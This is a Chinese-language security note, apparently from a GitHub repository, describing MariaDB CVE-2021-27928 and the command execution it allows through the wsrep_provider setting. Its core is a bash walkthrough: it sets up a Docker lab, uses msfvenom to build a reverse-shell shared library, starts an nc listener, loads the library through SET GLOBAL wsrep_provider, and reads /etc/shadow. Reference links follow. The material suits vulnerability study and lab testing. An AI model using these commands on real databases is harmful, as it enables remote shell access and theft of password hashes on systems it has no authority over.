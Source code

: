 # 数据库相关漏洞

## MariaDB CVE-2021-27928

[MariaDB 10.2 /MySQL - 'wsrep_provider' OS Command Execution](https://www.exploit-db.com/exploits/49765)

### 前提
1 有上传文件到该服务器任意路径的权限，如web上传漏洞或功能
2 有mysql账号密码 或 sql注入

```bash
# lab setup
# https://hub.docker.com/_/mariadb
sudo docker pull mariadb:10.5.8
docker run -p 3309:3306  --name mariadb-pt -e MYSQL_ROOT_PASSWORD=552271 -d mariadb:10.5.8

# 查看ip
sudo docker exec -it mariadb-pt bash
ip addr -4

# exploit
msfvenom -p linux/x64/shell_reverse_tcp LHOST=172.17.0.1 LPORT=4444 -f elf-so -o CVE-2021-27928.so
nc -lvp 4444
sudo docker cp CVE-2021-27928.so mariadb-pt:/tmp/CVE-2021-27928.so
mysql -h 127.0.0.1 -uroot -p552271 -P3309 -e 'SET GLOBAL wsrep_provider="/tmp/CVE-2021-27928.so";'
sudo cat /etc/shadow

# affected
1 获得 mariadb 执行用句的shell权限
2 mariadb 会被干掉
```


### 参考：

[PXC快速入门](https://www.cnblogs.com/f-ck-need-u/p/9364877.html)
 wsrep_provider ：指定Galera库的路径
mysql也支持 wsrep_provider  [6. MySQL Galera Cluster全解析 Part 6 Galera Cluster参数设置  tutorial6](http://www.zhaibibei.cn/mysql/galera/tutorial6/)
  但验证，mysql并无此问题

[MariaDB 安全漏洞](https://www.anquanke.com/vul/id/2390681)
 MariaDB是MariaDB（Mariadb）基金会的一套免费开源的数据库管理系统，也是一个采用Maria存储引擎的MySQL分支版本。 
 MariaDB 10.2 before 10.2.37, 10.3 before 10.3.28, 10.4 before 10.4.18, and 10.5 before 10.5.9 
 存在安全漏洞，不受信任的搜索路径会导致eval注入。

[MariaDB Galera Cluster部署实战](https://jeremyxu2010.github.io/2018/02/mariadb-galera-cluster%E9%83%A8%E7%BD%B2%E5%AE%9E%E6%88%98/)
